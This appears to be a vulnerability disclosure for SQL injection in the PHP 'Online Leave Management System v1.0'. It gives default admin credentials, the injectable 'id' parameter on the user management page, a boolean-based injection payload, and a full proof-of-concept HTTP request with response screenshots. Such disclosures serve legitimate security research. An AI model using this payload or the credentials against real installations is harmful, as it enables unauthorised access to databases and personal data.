 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: SunQingYu

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/?page=user/manage_user&id=

Vulnerability location: /leave_system/admin/?page=user/manage_user&id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/?page=user/manage_user&id=12%27%20and%20length(database())%20=9--+ // Leak place ---> id

```sql
GET /leave_system/admin/?page=user/manage_user&id=12%27%20and%20length(database())%20=9--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183634674-8553d179-5886-43e9-b868-9b5390172bb3.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183634615-bfadf99d-9798-42f2-834c-0581df1f5591.png)

